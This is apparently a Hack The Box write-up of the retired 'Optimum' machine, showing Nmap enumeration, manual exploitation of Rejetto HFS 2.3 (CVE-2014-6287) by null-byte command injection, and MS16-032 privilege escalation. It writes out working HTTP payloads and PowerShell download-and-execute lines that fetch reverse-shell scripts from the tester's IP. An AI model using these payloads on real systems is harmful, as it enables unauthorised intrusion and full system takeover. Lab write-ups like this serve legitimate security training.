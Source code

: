 # Optimum

This is the write-up for the box Optimum that got retired at the 28th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.8    optimum.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/optimum.nmap 10.10.10.8
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page we see an application called **HttpFileServer 2.3**.

![HttpFileServer](https://kyuu-ji.github.io/htb-write-up/october/october_hfs.png)

Looking for exploits for this service we find **Rejetto HTTP File Server 2.3.x - Remote Code Execution** with the CVE number [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

The description is as follows:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Instead of using the Metasploit Module, I will exploit this vulnerability manually.

### Explaining and using the exploit

The HFS application has an internal scripting language that uses some characters like curly brackets, pipe symbols and dots. They have a regular expression that searches and replaces these characters in the Search parameter.
When we send a _NULL Byte_ in the Search query, this will terminate the regular expression but everything after the NULL Byte will not be replaced.

Before we can do this, we need to know which characters to send. We can find that out by reading the [Rejetto wiki](https://rejetto.com/wiki/index.php?title=HFS:_scripting_commands). The parameter **exec** is what we need to send execute executables.
```markdown
Example: {.exec|notepad.}
```

Lets send a request with **%00** in the search bar, to _Burpsuite_ and modify the requests in the **Repeater**.
For testing we can send a simple `ping` command to verify that it works the way we want it to:
```markdown
GET /?search=%00{.exec|ping 10.10.14.23.} HTTP/1.1
```

The `tcpdump` on my local machine waits for connections and after sending this request is outputs the ICMP packets. We have command execution and can start a reverse shell on this box.

For this task I will use the Powershell script **Invoke-PowerShellTcp.ps1** from the **Nishang Framework** that will start a listener on my IP and port 9001.
```markdown
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# URL-encoded
GET /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.23%3a8000/shell.ps1').} HTTP/1.1
```

After executing this the listener will start a reverse shell and we are the user _kostas_ on the box.

## Privilege Escalation

We search for vulnerabilities by using **Sherlock.ps1** with the _Find-AllVulns function_ to get information about hotfixes.
 ```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Sherlock.ps1')
```

It appears to be vulnerable against **MS016-032 - Secondary Logon Handle** which we will with the script _Invoke-MS16032.ps1_.
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-MS16032.ps1')
```

This script will download another **Invoke-PowerShellTcp.ps1** that listens on port 9002 to start a new reverse shell but with elevated privileges.
After the files get downloaded and executed our listener starts and we are _NT Authority\SYSTEM_ on the box!
